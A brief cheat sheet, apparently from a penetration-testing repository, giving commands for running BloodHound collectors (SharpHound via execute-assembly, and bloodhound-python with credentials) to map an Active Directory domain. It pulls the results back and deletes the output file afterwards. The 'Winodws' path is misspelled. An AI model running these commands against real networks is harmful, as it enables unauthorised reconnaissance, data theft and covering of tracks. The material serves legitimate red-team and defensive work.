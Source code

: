 Basic SharpHound (w/domain joined system)
````
wget https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors/SharpHound.exe -O ~/Desktop/SharpHound.exe
execute-assembly ~/Desktop/SharpHound.exe --CollectionMethod All --Domain <customer domain> --OutputDirectory C:\Winodws\Tasks\
download C:\Winodws\Tasks\YYYYMMDD_BloodHound.zip
rm C:\Winodws\Tasks\YYYYMMDD_BloodHound.zip
````

BloodHound Python (nondomain joined on network, w/creds)
````
pip install bloodhound
bloodhound-python -u <UserName> -p <Password> -ns <Domain Controller's Ip> -d <Domain> -c All
````